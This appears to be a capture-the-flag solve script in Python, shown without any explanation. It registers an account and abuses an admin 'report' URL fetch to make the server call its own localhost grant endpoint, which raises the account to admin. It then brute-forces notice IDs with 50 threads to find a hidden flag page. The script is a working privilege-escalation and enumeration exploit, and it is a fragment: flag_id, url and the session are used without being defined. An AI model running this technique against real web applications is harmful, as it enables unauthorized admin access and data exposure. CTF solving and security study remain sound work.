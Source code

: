 ```py

requests.post(url + "auth/register", json=creds)
r = s.post(url + "auth/login", json=creds)
s.cookies.set("accessToken", r.json()["accessToken"])

s.get(
    url
    + f"admin/report?url=http://localhost:1337/admin/grant?username={creds['username']}"
)

s.cookies.clear()
r = s.post(url + "auth/login", json=creds)
s.cookies.set("accessToken", r.json()["accessToken"])

r = s.get(url + "admin/notice")
ids = re.findall(r"notice/([a-f0-9]+)", r.text)
print(ids)


def get_id(id):
    global s
    try:
        r = s.get(url + f"admin/notice/{id}")
    except:
        return get_id(id)
    return r


def process_id(id):
    r = get_id(id)
    if "flag" in r.text:
        print()
        print(r.text)
        exit()
    print(id, end="\r")


threads = []
max_threads = 50

for b1, b2 in zip(ids[0], ids[1]):
    if b1 == b2:
        flag_id += b1
    else:
        flag_id += "#"
flag_id = flag_id[:-1] + "9"  # last char is always 9

for i in range(0, 0xFF):  # we could use itertools.product but it's not necessary

    id = flag_id.replace("##", hex(i)[2:])
    t = threading.Thread(target=process_id, args=(id,))
    threads.append(t)
    t.start()

    if len(threads) > max_threads:
        for t in threads:
            t.join()
        threads = []

for t in threads:
    t.join()

```